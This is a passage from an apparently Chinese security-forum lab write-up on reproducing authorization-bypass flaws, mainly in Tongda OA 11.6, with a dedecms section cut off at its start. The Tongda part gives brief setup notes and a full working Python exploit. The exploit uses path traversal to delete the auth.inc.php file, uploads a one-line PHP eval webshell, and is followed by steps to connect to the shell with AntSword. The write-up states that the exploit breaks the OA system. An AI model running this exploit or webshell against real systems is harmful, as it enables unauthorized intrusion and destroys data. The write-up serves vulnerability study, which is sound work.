```php
docker-compose down -v
```

![image-20220224145622596](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-a719095ae6e71a5f371415cb3645419f61e7e021.png)

0x04 越权访问漏洞课外复现：
----------------

### 通达OA11.6版本越权漏洞复现

**环境搭建**

现在通达[官网](https://www.tongda2000.com/download/p2019.php)已经把版本升级到了11.7，所以下载11.6版本需要自己寻找资源

傻瓜式安装，配置界面如下。完成安装之后就可以暂时不用管它了。记得接触80端口占用（一般是要把phpstudy关掉）

![image-20220224162132902](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-5101561872664243475855312fb9aa031dff2f9e.png)

安装完之后就可以访问网站首页了。这个漏洞复现手动过程比较容易，执行exp 写马就可以了

![image-20220224170929069](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-6c384638a76705bbf066f44beb587edd4999029b.png)

![image-20220224170959270](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-5ce7f063439b27122d61f362dc7d5457fb70f475.png)

**exp：**

脚本内容如下，核心思路就是删除网站里的一个名为auth.inc.php的文件，进而越权拿shell

```php
import requests#填写iptarget="http://ip/"#一句话木马的密码是qaqpayload="<?php eval($_POST['qaq']);?>"print("[*]Warning,This exploit code will DELETE auth.inc.php which may damage the OA")input("Press enter to continue")print("[*]Deleting auth.inc.php....")#删除网站里的一个名为auth.inc.php的文件url=target+"/module/appbuilder/assets/print.php?guid=../../../webroot/inc/auth.inc.php"  requests.get(url=url)print("[*]Checking if file deleted...")url=target+"/inc/auth.inc.php"page=requests.get(url=url).textif 'No input file specified.' not in page:    print("[-]Failed to deleted auth.inc.php")    exit(-1)print("[+]Successfully deleted auth.inc.php!")print("[*]Uploading payload...")url=target+"/general/data_center/utils/upload.php?action=upload&filetype=nmsl&repkid=/.<>./.<>./.<>./"files = {'FILE1': ('deconf.php', payload)}requests.post(url=url,files=files)url=target+"/_deconf.php"page=requests.get(url=url).textif 'No input file specified.' not in page:    print("[+]Filed Uploaded Successfully")    print("[+]URL:",url)else:    print("[-]Failed to upload file")
```

**注意，该EXP不是无损EXP，会删除auth.inc.php让OA无法正常工作**

![image-20220224172050938](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-d596a69df0890b5f57f7afb0a405ffab74dad391.png)

**蚁剑拿shell**

程序执行之后出现了一个URL，为一句话木马所在位置。使用webshell管理工具（如蚁剑链接即可）

![image-20220224171444054](https://shs3.b.qianxin.com/attack_forum/2022/04/attach-2e76a1595772b8a3e6cac6eddd046da4a64a7f55.png)

### dedecms v5.7越权漏洞复现

**环境搭建**
